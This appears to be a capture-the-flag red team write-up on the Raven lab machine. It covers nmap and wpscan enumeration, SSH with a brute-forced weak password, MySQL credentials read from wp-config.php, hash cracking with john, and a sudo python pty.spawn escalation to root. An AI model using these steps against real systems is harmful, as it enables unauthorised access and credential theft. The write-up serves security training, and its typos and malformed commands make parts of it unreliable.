 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: $ nmap -sV 192.168.1.110
  
 ![](images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open ssh
  - Port 80/tcp open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp Open netbios-ssn
  - Poert 445/tcp Open netbios-ssn
  

The following vulnerabilities were identified on each target:
- Target 1
  - List of Critical Vulnerabilities
Following user were identified by running wpscan command

Command: wpscan --url http://192.168.1.110/wordpress --enumerate u

Two users can be seen:
![](images/User.png)

With a simple brut force user Michael password was cracked: Password was "michael"

Command:ssh michael@192.168.1.110
password: michael
![](images/Michael-Password.png)

 `flag1.txt`: 
 
   -Flag 1 was found in the following director:
    Command: cd /var/www/html
           : ls -al
           : nano services.html
           
![](images/Flag.png)
![](images/Flag 2.png)

`flag2.txt`:

    -Flage 2 was found in following directories:
     Command: cd /var/www/
            : ls -al

![](images/flag2.png)


### Exploitation

Mysql server login credentials was listed in wp-config.php file from where steven password was cracked using john ripper and his account was used then to execute python to escalte root preveliage. Following steps were involved

Step 1:
-SSH into Michael account
command: ssh micheal@192.168.1.110

-Login credentials using MYSQL server, were found in wp-config.php file within var/www/html/wordpress directory.

-Flag 3 was found in the wp_posts table in the wordpress database.


Command: mysql -u root -p
password: R@v3nSecurity
  mysql> use wordpress;
        show table;
        SELECT * FROM wp_users;
        SELECT * FROM wp_posts;

![](images/WP-TABLE.png)
![](images/Flag3.png)


Step 2:
Password was cracke using john ripper uing following command
command: john wp_hashes.txt
user steven password is cracked: pink84

Step 3:
Once the password hash was cracked, then SSH into Steven to execute python to escalte root privilege
Command: ssh steven@192.168.1.110
password: pink84
        :sudo -l
        :sudo python -c 'import pty;pty.spawn ('/bin/bash");'
        :cd /root
        :ls -al
        :cat falg4.txt
        
![](images/flag4.png)



